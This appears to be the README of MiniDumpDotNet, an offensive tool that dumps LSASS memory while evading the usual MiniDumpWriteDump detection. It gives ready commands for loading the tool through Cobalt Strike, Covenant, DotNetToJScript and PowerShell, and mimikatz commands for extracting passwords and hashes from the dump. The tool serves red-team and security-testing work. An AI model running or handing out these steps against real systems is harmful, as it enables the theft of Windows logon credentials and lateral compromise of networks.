








# MiniDumpDotNet

.NET injectable LSASS dumper, adapted from **[NanoDump](https://github.com/helpsystems/nanodump)**

The goal of this project is to provide .NET CLR injectable LSASS process dumping capbility that avoids usage of the Win32 API call MiniDumpWriteDump() (and associated Win32 API usage patterns).

## Features

- Developed in Visual C++ with CLR support
- Reduced size LSASS dump (similar to NanoDump)
- Compiler intrinsics removed to accommodate Pure CLR compilation
- Pre-configured to support injection via:
	- Assembly.Load() (e.g. Cobalt Strike "execute-assembly" and Covenant "Assembly" commands)
	- [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)/[GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) COM-based Memory Stream injection
	- PowerShell non-GAC Type import
	- Binary execution

## Building

### Clone

```<insert clone command>```

### Build

This project was implemented with Visual Studio 2015, but should be supported by any Visual Studio compiler that can build VS C++ CLR code. Building the solution will generate both a binary executable, as well as a .NET class library.

``` Build -> Build Solution ```

**or**

```CTRL+SHIFT+B```



## Usage: Covenant

This project was largely adapated to fill a needed gap within [Covenant C2](https://github.com/cobbr/Covenant).

### Example Command:

```
Assembly /assemblyname:"\"" /parameters:"620 dump.dmp"
```



## Usage: Cobalt Strike

Although you can use this payload with `execute-assembly`, you may have better luck with BOF-based projects referenced below.

### Example Command:

```
execute-assembly /path/to/binary <PID> <DUMPFILE>
```


## Usage: DotNetToJscript Build/Execution

MiniDumpDotNet can be integrated into both [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) and [GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) commands:

### Payload Generation:

Download and build the DotNetToJScript project in Visual Studio. Then use the generator to create the payload `minidumpdotnet.js`.

```
DotNetToJScript\DotNetToJScript\bin\Debug\DotNetToJScript.exe -d -v v4 -l JScript -o minidumpdotnet.js -c MiniDump.MiniDump MiniDumpDotNet\minidumpdotnet.dll
```



### Modification:

Update minidumpdotnet.js to include the PID of the LSASS process: `o.DumpPid(620, "dump.dmp");`



### Payload Execution:

```
cscript minidumpdotnet.js
```




## Usage: PowerShell Execution

PowerShell can be used to load arbitrary .NET class libraries which can be used to run this tool as well.

### Example Command:

```
[string]$assemblyPath = ".\minidumpdotnet.dll"
Add-Type -Path $assemblyPath
[MiniDump.MiniDump]$a = New-Object -TypeName 'MiniDump.MiniDump'
$a.DumpPid(620, "dump.dmp")
```



## Usage: Native Execution

When all else fails, native execution is worth a shot.

### Example Command:

```
minidumpdotnet.exe 620 dump.dmp
```




## Mimikatz Extraction

Extracting credentials (or hashes) from the dump is performed just as you would normally.

### Example Command:

```
mimikatz.exe
sekurlsa::minidump dump.dmp
sekurlsa::logonPasswords
```




## Notable Modifications

Many of the opsec-specific features (e.g. SysWhispers, handle duplication, corrupt MiniDump header, etc) from **NanoDump** were removed to produce the first pass at this project. Some of these features may be reintroduced at a later date. Additionally, the resulting source code for this project was reorganized, and various Windows structures, enums and constants were added to avoid include conflicts.

## Credits

- The developers at [HelpSystems](https://github.com/helpsystems) for the [NanoDump](https://github.com/helpsystems/nanodump) project
- [rooku](https://github.com/rookuu) for the [BOFs](https://github.com/rookuu/BOFs) project, which contains a general purpose reimplementation of MiniDumpWriteDump based on ReactOS
- The developers for [ReactOS](https://github.com/reactos) for providing reference code for the MiniDumpWriteDump API
- All other developers of the amazing offensive security products and tools mentioned above
